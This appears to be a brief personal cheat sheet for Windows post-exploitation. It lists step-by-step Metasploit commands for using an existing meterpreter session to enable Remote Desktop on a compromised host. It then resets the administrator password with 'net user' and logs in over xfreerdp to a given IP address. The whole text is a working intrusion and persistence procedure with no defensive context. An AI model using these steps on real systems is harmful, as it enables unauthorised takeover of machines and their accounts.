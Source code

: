 To enable RDP in windows system
- first we need a meterpreter sessions
- background the meterpreter sessions
- search enable_rdp
- use post/windows/manage/enable_rdp
- set SESSIONS 1
- run 
- this will enable rdp
- we can create user also using this module
- in windows command prompt
- net user administrator hacker_123321 [ we can create a user credentials:administrator:hacker_123321]
- xfreerdp /u:administrator /p:hacker_123321 /v:10.2.19.254 [this is used for rdp remote access
